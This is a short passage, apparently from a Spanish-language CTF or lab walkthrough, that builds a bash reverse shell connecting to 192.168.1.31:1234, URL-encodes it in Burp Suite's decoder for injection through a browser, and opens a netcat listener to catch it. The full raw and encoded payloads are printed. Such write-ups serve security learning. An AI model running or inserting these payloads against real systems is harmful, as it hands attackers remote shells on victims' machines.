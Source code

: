 Primero vamos a la web [ReverseShell][[http://www.reverseshell.com] para obtener una `reverse shell`.

![](img/Pasted%20image%2020241215195312.png#center)


Copiamos el comando `bash -i >& /dev/tcp/192.168.1.31/1234 0>&1` y me dirijo al *burpsuite*, en la pestaña `decoder` y añadimos
```
bash -c "bash -i >& /dev/tcp/192.168.1.31/1234 0>&1"
```

![](img/Pasted%20image%2020241215195537.png#center)


Copiamos el resultado de encodear la `reverse shell`
```
%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%31%2e%33%31%2f%31%32%33%34%20%30%3e%26%31%22
```

y lo pegamos en el navegador, pero antes nos ponemos en la escucha con `netcat` por el puerto que indicamos en la `reverse shell`
```
nc -nvlp 1234
```

![](img/Pasted%20image%2020241215195728.png#center)
